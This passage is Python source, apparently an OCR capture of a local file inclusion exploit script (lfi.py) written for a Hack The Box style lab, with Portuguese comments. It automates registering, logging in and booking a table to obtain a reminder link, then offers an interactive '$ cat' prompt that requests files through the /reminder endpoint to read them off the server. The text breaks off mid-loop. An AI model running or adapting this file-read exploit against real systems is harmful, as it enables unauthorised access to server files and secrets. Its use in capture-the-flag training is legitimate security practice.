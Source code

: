 ```python
    if response.status_code == 201:
        print("Account created")
    else:
        print("Account creation failed")
        sys.exit(1)


# Autentica o usuário na Session implementada
def login(email, password):
    url = host + "/login"
    data = {"email": email, "password": password}
    response = session.post(url, json=data)
    if response.status_code == 200:
        print("Login successful")
    else:
        print("Login failed, creating new account")
        register(email, password)


# Realiza uma reserva
def book_table():
    url = f"{host}/book"
    data = {"name": "HTB Player", "email": email, "phone": "1234567890", "people": 500, "date": "2025-01-01", "time": "12:00", "message": "HTB Player"}
    response = session.post(url, data=data)
    if response.status_code == 200:
        print("Table booked")
    else:
        print("Table booking failed")
        sys.exit(1)


# Obtém o link para baixar o calendário da reserva
def get_reminder_link():
    response = session.get(f"{host}/dashboard")
    soup = BeautifulSoup(response.text, "html.parser")
    table_entries = soup.body.main.find(id="why-us").div.table.tbody.find_all("tr")
    if table_entries:
        reminder_link = table_entries[0].find_all("td")[-1].a["href"].split("/")[-1]
        return reminder_link
    return None


if len(sys.argv) < 3:
    print("Usage: python3 lfi.py <email> <password>")
    sys.exit(1)


while True:
    # Verifica se o usuário está autenticado; caso não, autentica
    if not session.cookies.get("X-AUTH-Token"):
        login(email, password)
    else:
        reminder_link = get_reminder_link()
        # Caso nenhuma reserva tenha sido feito, cadastra uma reserva
        # para obter acesso ao endpoint /export
        if not reminder_link:
            book_table()
            continue
        # Espera a entrada do usuário para informar o arquivo que deseja ler
        path = input("$ cat ")
        response = session.get(f"{host}/reminder/{reminder_link}")
        if response.status_code == 404:
```